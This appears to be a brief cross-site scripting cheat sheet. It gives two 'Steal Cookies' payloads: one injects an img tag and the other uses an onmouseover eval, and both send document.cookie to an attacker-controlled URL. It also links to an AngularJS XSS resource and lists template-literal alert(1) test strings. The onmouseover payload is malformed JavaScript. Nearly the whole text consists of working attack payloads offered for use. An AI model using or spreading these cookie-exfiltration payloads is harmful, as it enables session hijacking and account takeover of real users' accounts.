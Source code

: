 # Steal Cookies
## Basic
```javascript
<script>document.write('<img src="[URL]?c='+document.cookie+'"/>'); </script>
```

## Onmouseover
```javascript
onmouseover=eval(var i=new Image;i.src="[URL]/?"+document.cookie;)
```

# AngularJS
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md

# Template Literal Payloads
```javascript
alert(1)
${alert(1)}
alert(1);
${alert(1)};
`alert(1)`
`${alert(1)}`
`${alert(1)}`;
alert(1);
${alert(1)}/*
```
